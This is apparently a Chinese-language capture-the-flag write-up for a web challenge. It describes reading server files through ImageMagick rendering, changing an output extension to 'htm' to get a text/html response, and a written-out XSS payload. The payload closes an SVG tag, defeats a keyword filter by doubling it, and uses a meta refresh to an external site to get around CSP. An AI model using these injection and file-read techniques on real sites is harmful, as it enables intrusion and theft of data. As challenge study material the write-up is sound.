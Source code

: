 ```python
```

这里注意, 注入的内容前面一定要跟点东西, 不能直接这样 `["><a></a><a href="]`, 因为 `http://pwnable.org:5000/static/emoji/`, 返回的是 404, 而 `http://pwnable.org:5000/static/emoji/随意的内容` 返回的是微笑. 如果什么都没有, imagemagick 得到 404 的话, 解析会直接中止.  

现在就能读取文件了, 结合后端是 python, 然后一顿测试, 得到应用在 `/app/app.py`, 可惜这里因为 imagemagick 的问题, 能读的源码有限, 调大图片尺寸也只能得到放大的文字, 不能显示更多的文字.  

部分源码:  

![](https://i.loli.net/2020/06/29/Gde8ry9uX3TKjR7.png)  

访问 `http://pwnable.org:5000/SUp3r_S3cret_URL/0Nly_4dM1n_Kn0ws`, 然后题目一转 xss... 要求 alert(1).  
因为这里有 csp 限制, 没法直接在 svg 里面用 script alert, 导致这里卡了挺久, 然后发现 imagemagick 生成的文件拓展名是可控的, 也就是第二步, 得到图片的路径是 `http://pwnable.org:5000/image/gzVIsH/png`, 修改最后的 png 到 svg, 就会如蜜传如蜜, 直接输出一张的 svg, 而且 content-type 也会改变. 不过这里后端限制了扩展名长度只能为 3, 否则会直接报错.  
这里查看文档, 发现 imagemagick 是支持输出 htm 的, `http://pwnable.org:5000/image/gzVIsH/htm` 得到的就是 htm, content-type 也变成了 `text/html`. 于是 xss 思路就来了, 看到源码的过滤是直接替换为空, 可以用喜闻乐见的双写绕过.  
然后在 svg 里面把最外面的 svg tag 给闭合了, 插入一个 html tag, 再用 meta 标签跳到我们的站上 alert(1) 即可, 这样就绕过了 csp.  

```python
d = '''
[{"type":0,"message":"Love you!<a>asd</a>[cool\\"/></g></svg><html><metmetaa http-equiv='refresh' content=\\"0;URL='http://site.com/'\\" /></html><a href=\\"]"},{"type":1,"message":"Me too!!!"}]
'''
```

不过感觉可能也是非预期? 因为看源码还有个可控 callback name 的 jsonp 没用上.  

PS. 这里其实可以直接读 /proc/self/environ 来读环境变量, 可惜 imagemagick 碰到 \x00 就停止读取了, 导致只能读取第一个环境变量 PATH, 都不到后面的 flag
